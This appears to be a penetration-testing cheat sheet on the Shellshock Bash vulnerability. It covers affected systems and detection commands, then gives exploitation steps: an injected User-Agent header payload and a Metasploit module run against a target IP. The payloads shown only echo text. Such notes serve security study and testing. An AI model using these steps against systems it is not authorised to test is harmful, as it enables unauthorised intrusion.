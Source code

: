 **Shellshock**, also known as the **Bash Bug**, is a critical vulnerability in the Unix Bash shell. It allows attackers to execute arbitrary code by crafting specially formatted environment variables. The vulnerability stems from improper handling of function definitions within environment variables, enabling remote code execution on vulnerable systems. This flaw can be exploited on web servers running CGI scripts that invoke Bash, such as those using **Apache**, increasing the risk of compromise.

---

## **Affected Systems**
- Systems running **Bash versions 4.3** and earlier (unpatched).
- Commonly found on:
    - Linux distributions (e.g., **Debian**, **CentOS**, **Ubuntu**).
    - **MacOS** systems.
    - Network appliances, embedded devices, and web servers running CGI scripts that invoke Bash (e.g., Apache servers).

--- 

## Detection
- **Nmap NSE Script**:
```
nmap --script http-shellshock --script-args uri=/cgi-bin/vulnerable_script -p80 <target_ip>
```

- **Bash Command to Test for Vulnerability**:

```bash
env x='() { :;}; echo Vulnerable' bash -c "echo Test"
```

## **Exploitation**

#### Using a proxy
1. **Identify a vulnerable CGI script**:

- Detect a CGI script on the server that is executed via Bash. Typically, these scripts are found under `/cgi-bin/`.

2. **Intercept a request**:

- Send a request to the server, and when it hits the proxy, intercept the request.
- In the HTTP request, look for an environment variable (such as `User-Agent`, `Referer`, or `Cookie`) that could be manipulated.

3. **Modify the request to trigger Shellshock**:

- Modify the value of the chosen environment variable to include the malicious Bash function. For example, add the following payload:
```bash
() { :;}; echo; echo; /bin/bash -c "echo 'Test'" 
```

This payload triggers the vulnerability in the server's Bash environment.

Example of a modified `User-Agent` header:

```bash
User-Agent: () { :;}; echo; echo; /bin/bash -c "echo 'Test'" 
```


#### Using Metasploit
1. **Use the Shellshock exploit module**: Load the Apache Shellshock module to exploit the vulnerability in CGI scripts running on an Apache server.

```bash
use exploit/multi/http/apache_mod_cgi_bash_env
```

2. **Set the target host and port**: Specify the target's IP address and the port number (default is port 80 for HTTP).

```bash
set RHOSTS <target_ip>
set RPORT 80
```

3. **Execute the exploit**: Launch the exploit and attempt to gain control over the vulnerable system.

```bash
exploit
```